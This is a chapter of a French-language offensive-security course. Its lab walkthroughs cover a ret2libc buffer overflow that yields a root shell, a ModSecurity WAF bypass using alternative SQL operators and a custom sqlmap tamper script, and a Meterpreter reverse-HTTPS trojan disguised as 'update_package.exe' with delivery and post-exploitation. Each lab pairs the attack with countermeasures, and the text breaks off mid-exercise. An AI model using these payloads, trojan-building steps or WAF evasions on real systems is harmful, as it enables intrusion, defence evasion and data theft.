



# Chapitre 03 : Vulnérabilités avancées et contournement des protections — Techniques de hacking et contre-mesures - Niveau 1

---

## Objectifs pédagogiques

- Exploiter un buffer overflow avec contrôle du flux d'exécution (EIP)
- Maîtriser les injections SQL avancées : blind, time-based
- Contourner un WAF (ModSecurity) avec sqlmap tamper scripts
- Appliquer les techniques d'évasion ([TA0005](https://attack.mitre.org/tactics/TA0005/) Defense Evasion)

---

## Introduction

Les défenses évoluent. Firewalls, WAF, IDS/IPS forment un maillage que les attaquants contournent quotidiennement. Le CERT-FR documente ces techniques d'évasion dans ses bulletins d'actualité hebdomadaires — les vrais attaquants utilisent exactement ces méthodes.

Ce chapitre est centré sur la tactique **[TA0005](https://attack.mitre.org/tactics/TA0005/) Defense Evasion** (50+ techniques). Les techniques de contournement par obfuscation et exploitation mémoire y sont abordées.

> **Sources :** [ATT&CK Defense Evasion](https://attack.mitre.org/tactics/TA0005/). [CERT-FR](https://www.cert.ssi.gouv.fr/).

---

## 1. Buffer overflow — [T1068](https://attack.mitre.org/techniques/T1068/) Exploitation for Privilege Escalation

### Fonctionnement technique

Quand un programme appelle une fonction, il réserve un espace mémoire (stack frame). Les variables locales sont stockées avant l'adresse de retour :

```text
Adresses hautes
+-----------------------------+
|  arguments                  |
+-----------------------------+
|  adresse de retour (EIP)    | <-- Contrôler ce registre = contrôler l'exécution
+-----------------------------+
|  saved EBP                  |
+-----------------------------+
|  buffer local [64 octets]   | <-- strcpy() écrit ici sans limite
+-----------------------------+
Adresses basses
```

**Fig 9** — Organisation de la pile mémoire (stack frame) : le dépassement du buffer local de 64 octets écrase l'adresse de retour EIP, permettant de rediriger l'exécution.

Si on écrit plus de 64 octets dans `buffer`, on déborde sur EIP. En y plaçant l'adresse d'une fonction système (ret2libc), on détourne l'exécution vers un shell.



**Fig 10** — Chaîne d'exploitation buffer overflow (ret2libc) : le payload `'A'*76 + system_addr + binsh_addr` force l'appel à `system("/bin/sh")`.

> **Note ASLR :** Le conteneur Docker a ASLR activé (impossible à désactiver avec `setarch` ou `personality` dans Docker). Les adresses de la pile et de la libc changent à chaque connexion. L'approche ret2libc contourne ASLR en utilisant une fuite mémoire (GOT leak) pour calculer l'adresse de `system()` à la volée, puis une force brute sur les pages alentour.

---

## Lab 3.1 — Buffer Overflow avec pwntools

### Fiche

| Durée | Conteneur | Dossier | Technique ATT&CK |
|---|---|---|---|
| 1h | buffovf-target (port 9001) | `rendu_labs/jour-03/` | [T1068](https://attack.mitre.org/techniques/T1068/) |

### Contexte métier

Les buffer overflows restent dans le top 3 des vulnérabilités critiques (MITRE CWE Top 25). Exploiter un BOF démontre la maîtrise de la mémoire — une compétence clé en sécurité offensive.

### Prérequis

```bash
# Démarre le conteneur vulnérable en arrière-plan et reconstruit l'image si nécessaire
# -d : mode détaché (arrière-plan), --build : rebuild l'image avant de lancer
docker compose up -d --build buffovf

# Teste la connectivité TCP sur le port 9001 ; si le port est ouvert, affiche "OK"
# -z : scan TCP sans envoyer de données (zero I/O mode)
nc -z localhost 9001 && echo "OK"

# pip = gestionnaire de paquets Python (télécharge et installe des bibliothèques depuis PyPI)
# Installe pwntools (bibliothèque d'exploitation binaire) en ignorant les restrictions PEP 668
# --break-system-packages : autorise pip à écrire dans l'environnement système (Debian/Kali)
pip install --break-system-packages pwntools

# Crée le dossier de travail du lab (récursivement si nécessaire) et s'y déplace
mkdir -p rendu_labs/jour-03 && cd rendu_labs/jour-03
```

### Étape 1 — Test crash

```bash
# Se place dans le dossier du lab
cd rendu_labs/jour-03

# Génère 100 caractères 'A' et les envoie via netcat au service vulnérable (port 9001)
# 'A'*100 = 100 octets > buffer[64] → débordement dans saved EBP et EIP
# Le pipe | redirige la sortie de python3 vers l'entrée standard de netcat
# python3 -c = exécute la chaîne de caractères comme du code Python, sans créer de fichier .py
# 'A'*100 = 100 octets > buffer[64] → débordement dans saved EBP et EIP
python3 -c "print('A'*100)" | nc localhost 9001
# → Input received: AAAA... (le programme répond avant de crasher — overflow confirmé)
```

### Étape 2 — Déterminer l'offset EIP

Le code source vulnérable est dans `docker/buffovf/vuln.c` :

```c
void vulnerable_function(char *input) {
    char buffer[64];
    strcpy(buffer, input);  // PAS de strncpy → overflow !
}
```

**Désassemblage de `vulnerable_function` :**

```text
push   %ebp              ; sauvegarde EBP (4 octets)
push   %ebx              ; sauvegarde EBX (4 octets) 
sub    $0x44,%esp        ; alloue 68 octets pour les variables locales
```

La pile est organisée ainsi :

```text
Adresses hautes
+----------------------------+
|  arguments                 |
+----------------------------+
|  adresse de retour (EIP)   | ← offset 76
+----------------------------+
|  saved EBP                 | ← offset 72
+----------------------------+
|  saved EBX                 | ← offset 68
+----------------------------+
|  padding / alignment       | ← offset 64
+----------------------------+
|  buffer local [0..63]      | ← début : buffer[0] = offset 0
+----------------------------+
Adresses basses
```

**L'offset EIP est donc 76** (64 buffer + 4 alignment + 4 saved EBX + 4 saved EBP).

```bash
cd rendu_labs/jour-03

# Vérification : 76 'A' + 'BBBB' écrase EIP avec 0x42424242
python3 -c "
import struct; p32=lambda x: struct.pack('<I',x)
print('A'*76 + p32(0x42424242).decode('latin-1'))
" | nc -w 1 localhost 9001
# Le programme imprime "Input received: AAAA..." puis crash (EIP=0x42424242).
```

### Étape 3 — Exploit ret2libc

Le binaire est compilé **sans stack canary** (`-fno-stack-protector`) mais ASLR est actif dans Docker. Impossible d'utiliser une adresse de pile fixe pour un shellcode. La technique ret2libc contourne ASLR :

1. **Fuite de printf@got** → calcule la base de la libc
2. **Force brute** sur les pages alentour (256 pages × 4 Kio = 1 Mio)
3. **Appel à `system("/bin/sh")`** avec des adresses valides

```bash
# Crée le script d'exploit
# Le script d'exploit complet est disponible dans rendu_labs/jour-03/exploit_bof.py
# (voir le fichier pour la version avec fonctions séparées et gestion d'erreurs)
#
# Principe général (exploit_bof.py) :
#   1. Fuite printf@got via printf@plt("%s\n", printf@got) → base libc
#   2. Force brute ±256 pages autour de la base de référence
#   3. system("/bin/sh") avec l'adresse trouvée + shell interactif

cd rendu_labs/jour-03
python3 exploit_bof.py
```

### Étape 4 — Lancer l'attaque

```bash
cd rendu_labs/jour-03

# Lance l'exploit (fuite + force brute, ~45s en moyenne)
python3 exploit_bof.py
```

**Checkpoint :** L'exploit trouve la bonne base libc (~230 tentatives, ~45s) et ouvre un shell interactif `uid=0(root)` sur le conteneur.

```console
[+] Référence : libc base≈0xf7d29000
[*] Force brute en cours...
  64/512 — 12.2s
  128/512 — 24.3s
[!!!] Shell obtenu (base=0xf7d0e000)
    b'Input received: ...\nPWNED\nuid=0(root) gid=0(root) groups=0(root)\n'
[+] Mode interactif. Tapez 'exit' pour quitter.
# id
uid=0(root) gid=0(root) groups=0(root)
```

### Explication détaillée

1. **Fuite printf@got** : le payload `'A'*76 + printf@plt + cleanup + fmt + got` appelle `printf("%s\n", printf@got)` dans le contexte de `vulnerable_function`. La sortie contient 20 octets de GOT (printf, strcspn, fgets, strcpy). On soustrait l'offset connu de printf (0x57520) pour obtenir la base libc.

2. **Force brute** : ASLR randomise la libc sur ~8 bits (256 pages de 4 Kio). La base de référence permet de centrer la recherche. Chaque tentative envoie `system("/bin/sh")` avec une base candidate ; si `echo PWNED` est reçu, le shell est validé.

3. **Pourquoi ret2libc plutôt que shellcode ?** La pile n'est pas exécutable (NX/DEP par défaut dans Docker) et ASLR empêche de prédire une adresse de pile. `system()` est toujours à un offset fixe de la libc : une fois la base connue, l'appel est fiable.

### 🔒 Contre-mesure (M1050 Exploit Protection)

Le buffer overflow a réussi parce que le binaire a été compilé **sans aucune protection**. En réactivant les protections standard, l'exploit devient impossible :

| Protection | Flag gcc | Effet sur l'exploit |
|---|---|---|
| **Stack Canary** | `-fstack-protector-strong` | Valeur aléatoire entre buffer et EIP — écrasée → crash détecté |
| **NX/DEP** | `-z noexecstack` (retiré) | La pile n'est plus exécutable → ret2libc impossible (mais ROP pur reste possible) |
| **ASLR** | `kernel.randomize_va_space=2` | Adresses aléatoires → force brute nécessaire même en ret2libc |
| **PIE** | `-pie -fPIE` | Le binaire lui-même est randomisé → les adresses PLT/GOT changent aussi |
| **FORTIFY_SOURCE** | `-D_FORTIFY_SOURCE=2` | Remplace `strcpy()` par `__strcpy_chk()` avec vérification de taille |

```bash
# Recompiler le binaire AVEC protections
docker exec buffovf-target bash -c "
gcc -fstack-protector-strong -D_FORTIFY_SOURCE=2 -pie -fPIE -g -o /opt/vuln_secure /tmp/vuln.c
  chmod 4755 /opt/vuln_secure
  echo 'Compilation sécurisée terminée'
"
# Re-tester le crash : le stack canary détecte le dépassement
python3 -c "print('A'*100)" | docker exec -i buffovf-target /opt/vuln_secure 2>&1
# → *** stack smashing detected *** (le canary a bloqué l'overflow !)
```

> **Checkpoint défensif :** Avec `-fstack-protector-strong` et ASLR, le binaire résiste à l'overflow. Même ret2libc échoue car le canary détecte la corruption avant le retour de fonction.

> **📌 Ce qu'on a retenu :** Exploitation d'un buffer overflow en environnement ASLR via ret2libc avec fuite mémoire GOT et force brute multi-connexions. Cette technique illustre pourquoi le buffer overflow reste dans le top 3 des vulnérabilités critiques du MITRE CWE Top 25, même face aux protections modernes.  
> **Attendu :** Un shell root est obtenu sur le conteneur cible via `system("/bin/sh")` après contournement de l'ASLR.  
> **Défense :** Stack canary (`-fstack-protector-strong`), NX/DEP (pile non exécutable), ASLR, PIE.

---

## Lab 3.2 — Contournement WAF avec sqlmap

### Fiche

| Durée | Conteneur | Technique ATT&CK |
|---|---|---|
| 45 min | waf-target (port 8081) | [T1562.001](https://attack.mitre.org/techniques/T1562/001/) Impair Defenses |

### Contexte technique

Un WAF (Web Application Firewall) bloque les signatures d'attaque connues. Mais il ne comprend pas le sens — il ne fait que du pattern matching. Si on modifie légèrement la syntaxe sans changer le sens, ça passe. C'est le principe de tous les tamper scripts sqlmap.

Le WAF utilisé est **ModSecurity avec l'OWASP Core Rule Set (CRS) v3.x**, qui inclut la **libinjection** — un détecteur SQLi par tokenisation sémantique, plus difficile à contourner que les simples regex.



**Fig 11** — Contournement WAF par opérateur alternatif : `id=1 OR 1` utilise `OR` sans `=`, ce qui échappe à la détection de signature SQLi et atteint l'application.

> **Note CRS :** Les versions récentes du CRS (v3.3+) détectent les commentaires `/**/` (règle 942200) et la libinjection (règle 942100) neutralise les contournements classiques par espacement (`space2comment`), encodage (`charencode`) ou casse (`randomcase`). Les opérateurs MySQL alternatifs (`LIKE`, `IN`, `IS TRUE`, `RLIKE`, `||`) passent car ils ne déclenchent pas les motifs regex « OR 1=1 » ou « UNION SELECT ».

### Étape 1 — Vérifier le blocage

Dans un terminal :

```bash
# Requête légitime sans injection SQL : le paramètre id=1 est normal
# -s : mode silencieux (silent), masque la barre de progression et les erreurs curl
# -o /dev/null : jette le corps de la réponse HTTP (on ne veut que le code de statut)
# -w "%{http_code}" : affiche uniquement le code HTTP de la réponse (write-out format)
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1"
# → 200 (OK, pas de détection)

# Tentative d'injection SQL avec OR 1=1 (encodage URL : espace → %20)
# La signature SQLi classique "OR 1=1" est reconnue par le WAF ModSecurity
# qui bloque la requête avant qu'elle n'atteigne l'application PHP/MySQL
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1%20OR%201=1"
# → 403 (Forbidden, le WAF a détecté et bloqué la signature d'attaque)
```

### Étape 2 — Bypass manuel

Le `UNION SELECT` est trop lourdement détecté. En revanche, les opérateurs de comparaison booléenne passent le WAF car ils ne contiennent pas `=` ni le couple `UNION SELECT`.

**Opérateurs qui fonctionnent (200 OK) :**

```bash
# Opérateurs booléens valides (sans =)
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1%20OR%201"
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1%20AND%201"
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1%20LIKE%201"
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1%20IN%20(1)"
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1%20IS%20TRUE"
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1%20RLIKE%201"
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1%20XOR%201"
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1%20NOT%20LIKE%202"
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1%20%7C%7C%201"       # ||
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1%20%26%26%201"       # &&
# → 200 OK pour tous — le WAF ne détecte pas la manipulation SQL.
```

Vérification du contournement :

```bash
curl -s "http://localhost:8081/?id=1%20OR%201"
# → Query: SELECT * FROM products WHERE id = 1 OR 1
```

> **Pourquoi ça marche ?** Le CRS cherche `OR 1=1`, `UNION SELECT`, les commentaires `/**/` ou `--`. Mais `OR 1` tout seul est une expression SQL valide (vrai perpétuel) qui ne correspond à aucun motif de signature.

### Étape 3 — Bypass avec sqlmap (tamper personnalisé)

Les tampers standards `space2comment`, `charencode` et `randomcase` sont inefficaces car le CRS moderne inclut la libinjection et les règles anti-contournement (942200, 942440). Il faut un tamper sur mesure.

```bash
cd rendu_labs/jour-03

# Crée un tamper personnalisé : remplace '=' par 'LIKE' et 'RLIKE'
mkdir -p ~/.local/share/sqlmap/tamper/
cat > ~/.local/share/sqlmap/tamper/__init__.py << 'EOF'
EOF

cat > ~/.local/share/sqlmap/tamper/bypass_my_waf.py << 'EOF'
#!/usr/bin/env python3
"""
Tamper personnalisé pour le contournement du CRS ModSecurity.
Remplace les motifs détectés par des opérateurs alternatifs.
"""
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    if not payload:
        return payload
    # '=' → 'LIKE' (contourne OR 1=1)
    payload = payload.replace("=", " LIKE ")
    # 'UNION SELECT' → 'UNION/**/SELECT' (tente de fragmenter)
    payload = payload.replace("UNION ALL SELECT", "UNION/**/ALL/**/SELECT")
    payload = payload.replace("UNION SELECT", "UNION/**/SELECT")
    return payload
EOF

# Lance sqlmap avec le tamper personnalisé
sqlmap -u "http://localhost:8081/?id=1" \
  --tamper=bypass_my_waf \
  --batch --level=2 --risk=2 --no-cast \
  --dbs 2>&1 | tee sqlmap_waf_bypass.txt
```

> **Note :** La base MySQL (`db`) n'est pas accessible depuis le conteneur (le constructeur de la chaîne de connexion pointe vers un hôte `db` qui n'est pas résolu). L'exercice porte sur le **contournement du WAF**, pas sur l'extraction réelle des données. Le succès est validé par l'affichage de la requête construite dans la page, prouvant que le payload a traversé le WAF.

**Checkpoint :** La requête SQL construite s'affiche dans la page, prouvant que le payload a traversé le WAF.

### 🔒 Contre-mesure (M1041 WAF + M1054 Input Validation)

Le WAF a été contourné parce qu'il fait du **pattern matching** (regex), pas de l'analyse sémantique. Pour bloquer ces contournements :

| Contournement | Contre-mesure WAF | Défense en profondeur |
|---|---|---|
| `OR 1` / `AND 1` | Normalisation sémantique (libinjection) | Validation applicative : n'autoriser que `[0-9]+` pour le paramètre `id` |
| `LIKE` / `IN` / `RLIKE` | Analyse des AST SQL (tokenisation) | Requêtes préparées (défense ultime, indépendante du WAF) |
| Burst de tentatives | Anomaly scoring → bannir l'IP après N détections | Pare-feu applicatif + PDO = double couche |

```bash
# Durcir le WAF ModSecurity avec le mode Anomaly Scoring (bloque après N détections)
docker exec waf-target bash -c "
  cat >> /etc/modsecurity.d/modsecurity.conf << 'EOF'
# Mode détection → blocage : après 5 anomalies, l'IP est bannie 10 minutes
SecAction \"id:900001,phase:1,nolog,pass,setvar:tx.anomaly_score=0\"
SecRule TX:ANOMALY_SCORE \"@ge 5\" \"id:900002,phase:2,deny,status:403,log,msg:'WAF bloque: score anormal'\"
EOF
"
# Re-tester après durcissement WAF :
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1%20OR%201"
# → 403 (le taux de requêtes suspectes a dépassé le seuil)
```

> **Checkpoint défensif :** Le WAF en mode anomaly scoring détecte le burst de tentatives et bloque l'IP. La défense en profondeur (WAF + requêtes préparées + validation applicative) rend l'injection SQL impossible même avec des opérateurs alternatifs.

> **📌 Ce qu'on a retenu :** Contournement de ModSecurity CRS via des opérateurs SQL alternatifs (`OR 1`, `LIKE`, `IN`, `RLIKE`) qui ne déclenchent pas les signatures. Les tampers sqlmap traditionnels (`space2comment`, `charencode`, `randomcase`) sont inefficaces contre le CRS moderne avec libinjection.  
> **Attendu :** La requête SQL construite s'affiche après le contournement, prouvant que le payload a traversé le WAF.  
> **Défense :** WAF en anomaly scoring + validation applicative whitelist (`[0-9]+`) + requêtes préparées (PDO).

---

## Lab 3.4 — Trojan Windows : génération, livraison et reverse shell

### Fiche

| Durée | Conteneur | Dossier | Techniques ATT&CK |
|---|---|---|---|
| 1h | VM Windows 10 + Kali | `rendu_labs/jour-03/` | [T1204.002](https://attack.mitre.org/techniques/T1204/002/) User Execution + [T1055](https://attack.mitre.org/techniques/T1055/) Process Injection + [T1071.001](https://attack.mitre.org/techniques/T1071/001/) Web Protocols |

### Contexte métier

Un trojan (ou cheval de Troie) est un logiciel malveillant déguisé en programme légitime. Dans un test de pénétration, l'auditeur peut être mandaté pour tester la capacité des employés à détecter une pièce jointe malveillante (simulation d'APT). Le trojan est livré via un fichier `.exe`, un document Office macro, ou un lien de téléchargement.

**Positionnement :** Contrairement aux exploits des LAB-2–LAB-3 (vulnérabilités réseau), le trojan exploite le **facteur humain** : un utilisateur exécute volontairement le fichier. C'est la technique la plus utilisée dans les attaques réelles (Verizon DBIR : 74% des brèches impliquent l'humain).



**Fig 11b** — Chaîne d'attaque Trojan Windows : génération du payload avec msfvenom, livraison à la victime, exécution volontaire (T1204.002), établissement d'un canal HTTPS (T1071.001), et post-exploitation.

### Prérequis

```bash
cd rendu_labs/jour-03

# 📌 Votre VM Windows 10 doit être allumée et sur le même réseau que Kali
# Connectez-vous avec un compte administrateur local

# 📌 Depuis Kali : relever votre IP (l'attaquant)
echo "📌 IP Kali : $(hostname -I | awk '{print $1}')"

# 📌 Depuis la VM Windows (PowerShell) : relever l'IP cible
# ipconfig → noter l'adresse IPv4 (ex: 192.168.X.X)

# 📌 Depuis Kali : vérifier que la VM est joignable
# 🔍 ping -c 2 = envoie 2 paquets ICMP puis s'arrête
# Remplacez 192.168.X.X par l'IP de votre VM Windows
ping -c 2 192.168.X.X
# → 2 packets transmitted, 2 received (la connectivité réseau est OK)

# 📌 Depuis la VM Windows (PowerShell) : vérifier que Kali est joignable
# ping KALI_IP  (remplacer KALI_IP par l'IP Kali notée plus haut)
```

### Étape 1 — Génération du trojan avec msfvenom

```bash
cd rendu_labs/jour-03

# 📌 msfvenom = générateur de payload de Metasploit
# 🔍 -p windows/x64/meterpreter/reverse_https = payload 64-bit reverse HTTPS
#   (Meterpreter = payload avancé avec injection mémoire, évasion, post-exploitation)
# 🔍 LHOST = adresse IP de l'attaquant (Kali) — c'est là que le reverse shell se connecte
# 🔍 LPORT = port d'écoute (443 = HTTPS, passe les firewalls)
# 🔍 -f exe = format de sortie (exécutable Windows)
# 🔍 -o = fichier de sortie
echo "📌 Mon IP Kali (réseau local) : $(hostname -I | awk '{print $1}')"
msfvenom -p windows/x64/meterpreter/reverse_https \
  LHOST=$(hostname -I | awk '{print $1}') \
  LPORT=443 \
  -f exe \
  -o /tmp/update_package.exe
# → [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
# → [-] No arch selected, selecting arch: x64 from the payload
# → No encoder specified, output size: 51200 bytes
# → Saved as: /tmp/update_package.exe

# 📌 Vérifier le fichier généré
file /tmp/update_package.exe
# → PE32+ executable (GUI) x86-64, for MS Windows  (c'est bien un PE Windows 64-bit)

# 📌 Calculer l'empreinte (hash) pour vérification
md5sum /tmp/update_package.exe
# → abc123...  (empreinte unique du fichier)
```

**Checkpoint A :** Le fichier `update_package.exe` est un exécutable Windows 64-bit. C'est un trojan : déguisé en mise à jour, il contient le payload Meterpreter.

### Étape 2 — Mise en place du listener Metasploit

```bash
cd rendu_labs/jour-03

# 📌 Script de démarrage du handler Metasploit (multi/handler)
# 🔍 use exploit/multi/handler = module générique qui attend une connexion reverse
# 🔍 set PAYLOAD = même payload que celui généré par msfvenom
# 🔍 set LHOST = IP de l'interface d'écoute (0.0.0.0 = toutes les interfaces)
# 🔍 set LPORT = port d'écoute (443)
# 🔍 set ExitOnSession = false = le handler continue d'écouter après une session
# 🔍 exploit -j = lancer en tâche de fond (-j = job)
cat > /tmp/listener.rc << 'EOF'
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 443
set ExitOnSession false
exploit -j
EOF

echo "📌 Lancement du handler en arrière-plan..."
msfconsole -q -r /tmp/listener.rc
# → [*] Started HTTPS reverse handler on https://0.0.0.0:443
# → [*] https://0.0.0.0:443 handling request from ...
```

**💡 Alternative sans Metasploit :** Vous pouvez aussi utiliser `ncat --ssl -lvnp 443` pour un écouteur HTTPS minimal, mais Meterpreter offre plus de capacités (injection, screenshot, keylog).

### Étape 3 — Livraison et exécution du trojan

```bash
cd rendu_labs/jour-03

# 📌 Sur Kali : servir le trojan via HTTP
# 🔍 python3 -m http.server = serveur HTTP minimal sur le port 8080
# Le trojan est accessible à http://KALI_IP:8080/update_package.exe
python3 -m http.server 8080 --directory /tmp/ &
# → Serving HTTP on 0.0.0.0 port 8080 ...

# 📌 Sur la VM Windows : télécharger et exécuter le trojan
# Ouvrir PowerShell en administrateur et exécuter :
# 🔍 Invoke-WebRequest = équivalent PowerShell de wget/curl
# 🔍 Start-Process = lance l'exécutable
: '
Invoke-WebRequest -Uri http://KALI_IP:8080/update_package.exe `
  -OutFile C:\Users\student\Desktop\update_package.exe
Start-Process C:\Users\student\Desktop\update_package.exe
'

# 💡 Note : si Windows Defender bloque l'exécution, ajoutez une exclusion
# de dossier avant (voir contre-mesure plus bas).
```

**Dans le terminal Metasploit** (quelques secondes après l'exécution) :

```console
[*] https://0.0.0.0:443 handling request from 192.168.X.X
[*] Meterpreter session 1 opened (192.168.X.X:49152 → 192.168.X.X:443)
meterpreter >
```

**Checkpoint B :** Une session Meterpreter est ouverte. Vous contrôlez la VM Windows 10 depuis Kali.

### Étape 4 — Post-exploitation (collecte d'informations)

```bash
# 📌 Les commandes suivantes s'exécutent DANS Meterpreter (sur la cible)
# 🔍 sysinfo = informations système (OS, architecture, domaine)
# 🔍 getuid = utilisateur courant
# 🔍 pwd = répertoire courant
# 🔍 screenshot = capture d'écran du bureau
# 🔍 keyscan_start = démarre le keylogger (enregistre les frappes)

meterpreter > sysinfo
# Computer        : DESKTOP-XXXXXXX
# OS              : Windows 10 (10.0 Build 19045)
# Meterpreter     : x64/windows

meterpreter > getuid
# Server username: DESKTOP-XXXXXXX\student

meterpreter > pwd
# C:\Users\student\Desktop

# 📌 Télécharger un fichier depuis la cible vers Kali (exfiltration simulée)
meterpreter > download C:\Users\student\Desktop\document.txt /tmp/exfiltrated.txt
# → [*] Downloading: C:\Users\student\Desktop\document.txt -> /tmp/exfiltrated.txt

# 📌 Nettoyer : supprimer le trojan de la cible
meterpreter > rm C:\Users\student\Desktop\update_package.exe
```

**Checkpoint C :** Le trojan a collecté des informations système et exfiltré un fichier vers Kali. En conditions réelles, ces données seraient revendues ou utilisées pour pivoter.

### 🔒 Contre-mesure (M1040 Endpoint Protection + M1037 User Training + M1029 AV Signature)

| Attaque | Défense | Mise en œuvre |
|---------|---------|---------------|
| Trojan exécutable | **Windows Defender / EDR** (Antivirus nouvelle génération) | Activez Defender sur le poste Windows 10 |
| Exécution par l'utilisateur | **Sensibilisation** + exécution restreinte (AppLocker) | `AppLocker → règles Chemins = C:\Program Files\` |
| Reverse HTTPS sortant | **Proxy/filtrage DNS** + inspection SSL | Proxy avec MITM TLS (Zscaler, Palo Alto) |
| Livraison HTTP | **Email filtering** + sandboxing | Attachment Scanning + pièces jointes `.exe` bloquées |

```bash
# 📌 Contre-mesure : analyser le trojan avec ClamAV (antivirus open-source)
sudo apt install -y clamav 2>/dev/null
sudo freshclam  # mettre à jour la base de signatures
clamscan /tmp/update_package.exe
# → /tmp/update_package.exe: Win.Trojan.MSIL-9876543 FOUND  (détecté !)

# 📌 Sur la VM Windows 10 : Windows Defender détecte immédiatement le trojan
# → Trojan:Win32/Meterpreter!ml  (détection par machine learning)

# 💡 Pour le lab uniquement (à REMETTRE impérativement après) :
# Ajouter une exclusion temporaire dans PowerShell Administrateur :
#   Add-MpPreference -ExclusionPath C:\Users\student\Desktop\
# Puis réactiver après le lab :
#   Remove-MpPreference -ExclusionPath C:\Users\student\Desktop\
# ⚠️ Ne pas laisser l'exclusion active après le TP

# 📌 Auditer les règles AppLocker (simulation sous Linux) :
# Les fichiers .exe ne devraient être autorisés que depuis C:\Program Files\
echo "Règle AppLocker simulée : seuls les programmes signés sont autorisés"
```

> **Checkpoint défensif :** ClamAV et Windows Defender détectent le trojan Meterpreter. Un EDR (ex: CrowdStrike, SentinelOne) le bloquerait également, même si les signatures sont désactivées (détection comportementale).

> **📌 Ce qu'on a retenu :** Génération d'un trojan Meterpreter avec msfvenom, livraison via HTTP et reverse HTTPS pour contourner les firewalls. Le facteur humain (exécution volontaire) est le vecteur principal — 74% des brèches impliquent l'humain (Verizon DBIR).  
> **Attendu :** Une session Meterpreter est ouverte depuis Kali sur la VM Windows 10, permettant le contrôle à distance et l'exfiltration de fichiers.  
> **Défense :** Windows Defender / EDR (détection comportementale) + AppLocker (restriction d'exécution) + sensibilisation utilisateur.

---

## Synthèse du chapitre

### Tableau récapitulatif

| Lab | Attaque | Compétence acquise | ATT&CK |
|-----|---------|--------------------|--------|
| 3.1 — Buffer Overflow | Débordement de pile (BOF) ret2libc avec contournement ASLR | Exploitation binaire, fuite GOT, force brute libc | [T1068](https://attack.mitre.org/techniques/T1068/) Privilege Escalation |
| 3.2 — Contournement WAF | SQLi bypass via opérateurs alternatifs (LIKE, IN, RLIKE) | Évasion de signature CRS, création de tamper personnalisé | [T1562.001](https://attack.mitre.org/techniques/T1562/001/) Impair Defenses |
| 3.4 — Trojan Windows | Trojan Meterpreter reverse HTTPS | Génération de payload, livraison, post-exploitation | [T1204.002](https://attack.mitre.org/techniques/T1204/002/) + [T1055](https://attack.mitre.org/techniques/T1055/) + [T1071.001](https://attack.mitre.org/techniques/T1071/001/) |

### Conclusion

Ce chapitre a montré que les protections ne sont jamais absolues. Même avec ASLR actif, un buffer overflow peut être exploité via ret2libc en combinant une fuite mémoire (GOT leak) et une force brute. De la même manière, un WAF comme ModSecurity CRS avec libinjection peut être contourné par des opérateurs SQL alternatifs si l'application sous-jacente reste vulnérable.

Le trojan Meterpreter illustre enfin que la meilleure technicité d'exploitation ne suffit pas sans prise en compte du facteur humain. La défense en profondeur — combinant protections techniques (EDR, WAF, AppLocker), contrôles réseau (proxy, inspection SSL) et sensibilisation des utilisateurs — reste la seule approche réellement efficace face à des attaquants qui maîtrisent ces techniques d'évasion ([TA0005](https://attack.mitre.org/tactics/TA0005/)).

## Exercices

### Exercice 1 : Vérification de l'offset EIP

**Énoncé :** Confirmez l'offset 76 par analyse du désassemblage et envoi de payload test.

<details><summary><strong>Solution</strong></summary>

```bash
# Méthode 1 — Désassemblage :
objdump -d /opt/vuln | grep -A20 '<vulnerable_function>:'
#   push   %ebp        ; 4 octets
#   push   %ebx        ; 4 octets
#   sub    $0x44,%esp  ; 68 octets allocation
# offset = 64 (buffer) + 4 (padding) + 4 (ebx) + 4 (ebp) = 76

# Méthode 2 — Test avec 76 'A' + 'BBBB' :
python3 -c "
import struct
p32 = lambda x: struct.pack('<I', x)
payload = b'A' * 76 + p32(0x42424242)
import sys; sys.stdout.buffer.write(payload + b'\n')
" | nc -w 1 localhost 9001 2>/dev/null; echo "Code sortie: $?"
# → EIP = 0x42424242 (le programme crash avec EIP contrôlé)
```
</details>

### Exercice 2 : Blind SQLi booléenne avec contournement WAF

**Énoncé :** Sur l'application waf-target (port 8081), construisez une injection booléenne qui passe le WAF en utilisant `LIKE` au lieu de `=`.

<details><summary><strong>Solution</strong></summary>

```bash
# L'opérateur '=' est bloqué par le WAF. Utiliser 'LIKE' ou 'RLIKE' :
curl -s "http://localhost:8081/?id=1%20AND%201%20LIKE%201"
# → 200 OK — la requête SQL "WHERE id = 1 AND 1 LIKE 1" s'affiche

# Comparaison avec une valeur fausse :
curl -s "http://localhost:8081/?id=1%20AND%201%20LIKE%202"
# → 200 OK — même statut, mais la condition est fausse

# Pour de l'extraction blind, on peut utiliser SUBSTRING + LIKE (si le WAF ne bloque pas) :
